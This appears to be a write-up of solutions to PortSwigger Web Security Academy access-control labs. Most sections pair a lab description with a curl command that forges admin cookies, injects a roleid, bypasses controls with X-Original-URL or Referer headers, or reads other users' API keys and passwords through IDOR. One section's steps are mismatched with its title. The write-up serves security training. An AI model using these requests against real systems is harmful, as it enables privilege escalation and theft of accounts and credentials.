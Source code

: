 ## Access control vulnerabilities and privilege escalation
### Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user carlos. 

`curl 'https://ID.web-security-academy.net/administrator-panel/delete?username=carlos'`

### Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user carlos. 
```js
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-n7cwxc');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
```
`curl 'https://ID.web-security-academy.net/admin-n7cwxc/delete?username=carlos'`
### Lab: User role controlled by request parameter


This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```
curl -X GET "https://ID.web-security-academy.net/admin/delete?username=carlos" \
-H "Cookie: Admin=true; session=..."
```
### Lab: User role can be modified in user profile

This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```
curl -X POST "https://ID.web-security-academy.net/my-account/change-email" \
-H "Cookie: session=tsmyRIdrLzpItSK4AVZoh3BRkXuNAIhD" \
--data-raw '{"email":"a@a","roleid":2}'
```
```
curl "https://0a0c00ea040ae2deac44a8f7007900a6.web-security-academy.net/admin/delete?username=carlos" \
-H "Cookie: session=tsmyRIdrLzpItSK4AVZoh3BRkXuNAIhD"
```
### Lab: URL-based access control can be circumvented
This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

To solve the lab, access the admin panel and delete the user carlos. 

- Send the email submission request to Burp Repeater, add "roleid":2 into the JSON in the request body, and resend it.
- Observe that the response shows your roleid has changed to 2.
- Browse to /admin and delete carlos. 

### Lab: URL-based access control can be circumvented

This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

To solve the lab, access the admin panel and delete the user carlos. 
```
curl -X GET "https://0acc009d04f0d3ad80b78aed00fc007d.web-security-academy.net/?username=carlos" \
-H "X-Original-URL: /admin/delete" \
-H "Cookie: session=26tyO315CIK58N8uzwspu5lus3MZnnPs"
```

### Lab: Method-based access control can be circumvented

This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

```
curl 'https://ID.web-security-academy.net/admin-roles?username=wiener&action=upgrade'/
-H "Cookie: session=..."
```

### Lab: User ID controlled by request parameter

This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```
curl -s "https://ID.web-security-academy.net/my-account?id=carlos" \
-H "Cookie: session=..." |\
grep "API Key"
```
### Lab: User ID controlled by request parameter, with unpredictable user IDs

This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

To solve the lab, find the GUID for carlos, then submit his API key as the solution.

You can log in to your own account using the following credentials: wiener:peter 

Find a blog post by carlos and observe that the URL contains his user ID
```
curl -s "https://ID.web-security-academy.net/my-account?id=<carlos_id>" \
-H "Cookie: session=..." |\
grep "API Key"
```

### Lab: User ID controlled by request parameter with data leakage in redirect

This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter
```
curl -s "https://ID.web-security-academy.net/my-account?id=carlos" \
-H "Cookie: session=..." |\
grep "API Key"
```
### Lab: User ID controlled by request parameter with password disclosure

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 

Get the admin's password
```
curl -s "https://ID.web-security-academy.net/my-account?id=administrator" \
-H "Cookie: session=..." |\
grep "password"
```
### Lab: Insecure direct object references

This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

Solve the lab by finding the password for the user carlos, and logging into their account. 

```
curl -s "https://0ae70075034194f2809358d200fa0033.web-security-academy.net/download-transcript/1.txt" \
-H "Cookie: session=CuUT5IHHd8huYTLJIx1JVwMjxXXlFKeb" |\
grep "password"
```
### Lab: Multi-step process with no access control on one step


This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
curl -X POST "https://ID.web-security-academy.net/admin-roles" \
-H "Host: ID.web-security-academy.net" \
-H "Cookie: session=admin_cookie_here>" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data-raw "action=upgrade&confirmed=true&username=wiener"
```
### Lab: Referer-based access control

This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
curl "https://ID.web-security-academy.net/admin-roles?username=wiener&action=upgrade" \
-H "Cookie: session=wiener_cookie_here>" \
-H "Referer: https://0a11000c03d1c5f7822a97d5008200ce.web-security-academy.net/admin"
```


